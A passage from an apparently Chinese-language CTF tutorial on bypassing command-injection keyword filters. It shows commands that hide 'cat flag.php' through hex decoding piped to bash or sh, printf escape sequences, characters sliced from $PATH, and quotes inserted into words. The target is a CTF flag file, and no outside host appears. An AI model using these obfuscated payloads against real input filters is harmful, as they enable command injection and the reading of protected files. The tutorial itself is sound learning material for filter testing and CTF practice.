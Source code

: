 <2>hex 编码

[https://the-x.cn/encodings/Hex.aspx](https://link.zhihu.com/?target=https%3A//the-x.cn/encodings/Hex.aspx)

```
cat flag.php =>0x63,0x61,0x74,0x20,0x66,0x6C,0x61,0x67,0x2E,0x70,0x68,0x70 =>63617420666c61672e706870
#xxd: 二进制显示和处理文件工具,cat: 以文本方式ASCII显示文件
#-r参数：逆向转换。将16进制字符串表示转为实际的数
#-ps参数：以 postscript的连续16进制转储输出，也叫做纯16进制转储。
#-r -p将纯十六进制转储的反向输出打印为了ASCII格式。
[root@localhost home]# `echo "63617420666c61672e706870"|xxd -r -p`
  
[root@localhost home]# $(echo "63617420666c61672e706870"|xxd -r -p)
  
[root@localhost home]# echo "63617420666c61672e706870"|xxd -r -p|bash
  
[root@localhost home]# echo "63617420666c61672e706870"|xxd -r -p|sh
```

<3>shellcode 编码

```
cat flag.php => \x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70
  
[root@localhost home]# {printf,"\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70"}|bash
  
[root@localhost home]# `{printf,"\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70"}`
  
[root@localhost home]# $(printf "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70")
```

<4> 利用已有资源

如：从已有的文件或者环境变量中获得相应的字符

```
[root@localhost home]# echo ${PATH}
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin
[root@localhost home]#
[root@localhost home]# echo ${PATH:6:1}
o
[root@localhost home]# echo ${PATH:6:2}
oc
[root@localhost home]# echo ${PATH:1:2}
us
[root@localhost home]# echo ${PATH:0:2}
/u
[root@localhost home]# 
[root@localhost home]# c${PATH:8:1}t flag.php
```

<5> 单引号和双引号

```
[root@localhost home]# cat fl''ag.php
[root@localhost home]# cat fl'a'g.php
[root@localhost home]# cat f""lag.php
[root@localhost home]# cat f"l"ag.php
[root@localhost home]# c""at fl'a'g.php
```
